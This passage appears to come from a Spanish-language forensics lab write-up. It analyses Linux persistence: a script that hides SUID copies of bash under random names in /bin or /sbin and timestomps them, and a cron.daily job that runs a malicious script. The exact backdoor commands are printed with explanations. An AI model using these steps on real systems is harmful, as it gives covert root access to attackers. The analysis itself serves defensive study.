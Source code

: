 1. **Selección aleatoria de directorio**

   * Define un array `DIRS` con las rutas `"/bin"` y `"/sbin"`.
   * Con `$RANDOM % 2` escoge al azar uno de los dos índices (`0` o `1`) y asigna a `DIR` o bien `/bin` o bien `/sbin`.
   * **Propósito**: variar la ubicación del backdoor para dificultar su detección.

2. **Generación de un nombre aleatorio único**

   * En cada iteración:

     * `cat /dev/urandom | tr -dc 'a-z' | fold -w 6 | head -n 1`    → genera una cadena aleatoria de 6 letras minúsculas.
     * `[[ -f "{$DIR}/${NEW_UUID}" ]]`                              → comprueba si ya existe un archivo con ese nombre en el directorio elegido.
   * Si existe, vuelve a intentarlo; si no existe, sale del bucle con un nombre único en `NEW_UUID`.
   * **Propósito**: evitar sobrescribir archivos legítimos y cada día crear un binario con un nombre diferente.

3. **Instalación del backdoor SUID**

   * `cp /bin/bash ${DIR}/${NEW_UUID}`
     → copia el intérprete `/bin/bash` a `/bin/<uuid>` o `/sbin/<uuid>`.
   * `touch ${DIR}/${NEW_UUID} -r /bin/bash`
     → ajusta la fecha de modificación del nuevo archivo para que coincida con la de `/bin/bash`, camuflándolo.
   * `chmod 4755 ${DIR}/${NEW_UUID}`
     → establece el bit SUID (`4`) y permisos `755` (propietario lectura/escritura/ejecución, grupo y otros lectura/ejecución).
     → Con bit SUID, cualquier usuario que ejecute este binario obtendrá privilegios de **root**.

**Estos son los binarios que encontramos anteriormente**

El siguiente: 

```bash 
root@ng-2122606-forensicspersistence-btivr-7c459d4bf4-rxdtr:~# cat /etc/cron.daily/pyssh
#!/bin/sh

VER=$(python3 -c 'import ssh_import_id; print(ssh_import_id.VERSION)')
MAJOR=$(echo $VER | cut -d'.' -f1)

if [ $MAJOR -le 6 ]; then
    /lib/python3/dist-packages/ssh_import_id_update
fi
```

- Importar el módulo ssh_import_id (una utilidad standard en Debian/Ubuntu para gestionar claves SSH públicas).
- Imprimir su atributo VERSION (por ejemplo, 5.10.1 o 7.2.0).
- Usa cut para quedarse con el número anterior al primer punto.
    - Si VER="5.10.1", entonces MAJOR="5".
    - Si VER="7.2.0", entonces MAJOR="7".
- Si la versión principal ($MAJOR) es menor o igual a 6, se ejecuta el script malicioso ssh_import_id_update.
- Propósito aparente: aprovechar un “bug” o condición especial en versiones antiguas (≤ 6) de ssh_import_id para camuflar el script, o bien simplemente usar la verificación de versión como excusa para ejecuciones selectivas.
